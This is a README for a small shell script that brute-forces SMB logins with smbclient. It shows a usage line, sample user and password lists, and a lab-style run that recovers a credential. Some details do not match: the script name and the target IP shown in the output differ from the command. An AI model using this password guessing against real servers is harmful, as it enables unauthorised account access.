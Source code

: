 # VSSB
Very simple SMB brute force\
\
Some complex tool may fail sometimes.\
This script just tries to login via "smbclient".\
\
`usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123`
\
\
Considering the following file (containing a list of users):
\
```
kali@kali:~/Desktop$ cat usrs.txt
pippo
fsmith
luca```

and the following file (containing a list of passwords):
```
kali@kali:~/Desktop$ cat pwds.txt`
123456
sandro
omg123!!!
Thestrokes23  
pippo
password```
you can use the scripts as follows:
kali@kali:~/Desktop$ ./simple-smb-bruteforce1.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.175

starting...

Found WORKGROUP@fsmith:Thestrokes23

done!
`

